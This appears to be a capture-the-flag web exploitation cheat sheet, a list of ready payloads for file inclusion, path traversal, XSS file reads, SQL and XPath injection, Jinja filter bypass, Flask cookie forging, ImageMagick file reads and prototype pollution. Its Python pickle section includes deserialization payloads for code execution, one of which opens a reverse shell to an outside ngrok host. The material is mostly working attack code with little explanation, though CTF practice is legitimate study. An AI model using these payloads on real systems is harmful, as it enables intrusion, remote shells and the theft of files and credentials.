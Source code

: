### Tricks 

- **Protocols**
  - `file:///etc/passwd`

- **Headers**
  - `X-Forwarded-Host`

### Local File Inclution
  - `/robots.txt`
  - `/.git`
  - `/sitemap.xml`
  - `?file=php://filter/convert.base64-encode/resource=/etc/passwd`
  - `?file='.system("cat /flag*").'`
  - `/../../../../../../proc/self/environ`
  - `/_nuxt/@fs/flag.txt`
  
### Path traversal
  - `%2e%2e/` -> `../`
  - `%2e%2e%2f` -> `../`
  - `..%2f` -> `../`

### XSS

  - **LFI** read file
```javascript
<script>
  x = new XMLHttpRequest;
  x.onload=function() {
    document.write(this.responseText)
  }; 
  x.open("GET", "file:///etc/passwd");
  x.send();
</script>;
````

### SQLi

- `UNION`

```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

### XPath Injection

```
'or string-length(name(.))=5 or '!'='
' or substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE) or '!'='
'or contains(.,'admin') or'
a' or (substring((//flag)[1], 1, 1)) = 'a
```

### Type juggling with data

- `Playing with header`

  - `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
  - [code](https://github.com/ByamB4/CCC/blob/master/Web%20Exploitation/src/post-nullbyte.py)

### Server side template injection (SSTI)

- `Python`

  - Filtered `.`, `[]`
    - `obj.attribute` -> `obj|attr('attribute')` (`attr` is a filter in jinja template engine)
    - `obj[index]` -> `obj.__getitem__(index)` -> `obj|attr('__getitem__')(index)`
    - `obj['key']` -> `obj.__getitem__('key')` -> `obj|attr('__getitem__')('key')`

### JWT

- `Flask session cookie`
    - `flask-unsign --decode --cookie eyJsb2dnZWRfaW4iOmZhbHNlfQ.Yg9geQ.s8MKSRemMQyS5S60QTS0lY0Xg0o`
    - `flask-unsign --unsign --cookie < cookie.txt`
    - `flask-unsign --sign --cookie "{'logged_in': True}" --secret 'password'`
    
- https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee


### Python pickle

- **RCE**
```python
import pickle, base64

class DillPickle:
  def __reduce__(self):
    import subprocess
    return (subprocess.check_output, (['/bin/cat', '/ls'],))

print(base64.b64encode(pickle.dumps(DillPickle())).decode())
```

- **Get shell**
```python
class RCE(object):
  def __reduce__(self):
    return (os.system,('''python2 -c 'import os,pty,socket;s=socket.socket();s.connect(("0.tcp.jp.ngrok.io",13180));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' ''',))

p = base64.b64encode(pickle.dumps(RCE())).decode()
```

- **JSON**
```python
class Exploit:
    def __reduce__(self):
        return (eval, ('{"name":"name","userid":"1234","password":open("./flag.txt").read()}',))


payload = pickle.dumps(Exploit())
b64_payload = base64.b64encode(payload).decode('ascii')
print(b64_payload)
```


### Imagemagick

- File upload read local file (xxe)

  - Payload 
    ```
      <?xml version="1.0" encoding="UTF-8"?>
      <svg width="500px" height="500px">
        <image width="500" height="500" href="text:/etc/passwd" />
      </svg>
    ```

### Prototype pollution

- **Lodash**
  - `{"constructor": {"prototype": {"admin": True}}}`
  - `{"__proto__": {"name": "user", "password": "pass", "admin": True}}`
  
